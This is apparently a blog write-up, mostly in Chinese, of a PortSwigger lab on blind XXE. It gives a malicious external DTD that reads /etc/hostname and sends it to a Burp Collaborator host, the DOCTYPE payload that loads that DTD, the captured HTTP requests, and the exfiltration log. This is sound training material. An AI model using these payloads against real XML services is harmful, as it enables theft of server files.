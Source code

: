 ```yaml
---
layout: post
title: "Exploiting blind XXE to exfiltrate data using a malicious external DTD"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_XXE
author: ""
tags: ['PortSwigger_Lab', 'XXE']
---
```






# Exploiting blind XXE to exfiltrate data using a malicious external DTD


```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, exfiltrate the contents of the `/etc/hostname` file.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.




這個實驗室有一個“檢查庫存”功能，它解析 XML 輸入但不顯示結果。

要解決實驗室問題，請洩露 `/etc/hostname` 文件的內容。

＃＃＃＃ 筆記

為了防止 Academy 平台被用於攻擊第三方，我們的防火牆阻止了實驗室與任意外部系統之間的交互。 要解決實驗室問題，您必須使用提供的漏洞利用服務器和/或 Burp Collaborator 的默認公共服務器。


```


### 官方給的 malicious DTD
```xml

<!ENTITY % file SYSTEM "file:///etc/hostname"> 


<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> 


%eval; %exfil;


```


## 解釋:

### 1.定義 file 變數  請求file:///etc/hostname
```
<!ENTITY % file SYSTEM "file:///etc/hostname"> 
```


### 2.定義 eval 變數 是一個字串
```
<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>
```


### 3.在定義 eval 變數時 file 變數已經被調用
```
<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>
```

### eval 字串變數 =
```
<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=file:///etc/hostname;'>
```


### 4.eval 字串變數被調用生成的字串剛好定義了 exfil  

(&#x25;   =   %)
https://www.codetable.net/hex/25

```
<!ENTITY % exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=file:///etc/hostname;'>
```


### 5.exfil 最後被調用請求 url
```
http://BURP-COLLABORATOR-SUBDOMAIN/?x=file:///etc/hostname
```







### 官方給的 payload
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>

```

解釋:
定義 xxe 變數 為一段外部的DTD url ，並調用。



所以整段看下來，應該還是用了OOB 帶外攻擊

1.應該要去包含我們的惡意 DTD

2.惡意 DTD 最後會請求我們的dns log，x參數帶出 file:///etc/hostname
```
http://BURP-COLLABORATOR-SUBDOMAIN/?x=file:///etc/hostname
```




BP  collaborator client 生成 dns server 地址:
```
gxhib2t6d7ne9mbrrk0kp8a2jtpjd8.burpcollaborator.net
```



### 惡意DTD網址的server 

這裡BP 很好心的為我們設置了一個 
body  (用自己的 BP  collaborator dns  地址 )
```


<!ENTITY % file SYSTEM "file:///etc/hostname"> 


<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://gxhib2t6d7ne9mbrrk0kp8a2jtpjd8.burpcollaborator.net/?x=%file;'>"> 


%eval; %exfil;



```


儲存後 view exploit 確認這個url 
```
https://exploit-0a1b00480360175dc004518f011200b6.exploit-server.net/exploit
```


會response 惡意DTD
```
<!ENTITY % file SYSTEM "file:///etc/hostname"> 


<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://gxhib2t6d7ne9mbrrk0kp8a2jtpjd8.burpcollaborator.net/?x=%file;'>"> 


%eval; %exfil;
```

最後修改payload
```

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1b00480360175dc004518f011200b6.exploit-server.net/exploit"> %xxe;]>

```




### BP抓包
```http
POST /product/stock HTTP/1.1
Host: 0a9600bc04de27b7c0421afe00f500e3.web-security-academy.net
Cookie: session=15LbL7xGBpGyThtgscsZCT8CorMG2WOw
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0a9600bc04de27b7c0421afe00f500e3.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0a9600bc04de27b7c0421afe00f500e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockcheck>
	<productid>3</productid>
	<storeid>1</storeid>
</stockcheck>

```




### 插入payload 引用惡意DTD
```http

POST /product/stock HTTP/1.1
Host: 0ae900e303bd1786c0115154002100cc.web-security-academy.net
Cookie: session=S2C7kbybhbu8l6Nl9xq5rkafTxpCntcB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://0ae900e303bd1786c0115154002100cc.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0ae900e303bd1786c0115154002100cc.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1b00480360175dc004518f011200b6.exploit-server.net/exploit"> %xxe;]>

<stockcheck>
	<productid>3</productid>
	<storeid>1</storeid>
</stockcheck>

```




### 回到BP  collaborator client  查看紀錄
```
The Collaborator server received an HTTP request.  The request was received from IP address 34.251.122.40 at 2022-10.-13 14:55:12 UTC

```

http包: x 參數帶出 file:///etc/hostname = 156b1e3fcb09
```http

GET /?x=156b1e3fcb09 HTTP/1.1
User-Agent: Java/17.0.3
Host: gxhib2t6d7ne9mbrrk0kp8a2jtpjd8.burpcollaborator.net
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


```


提交就成功了。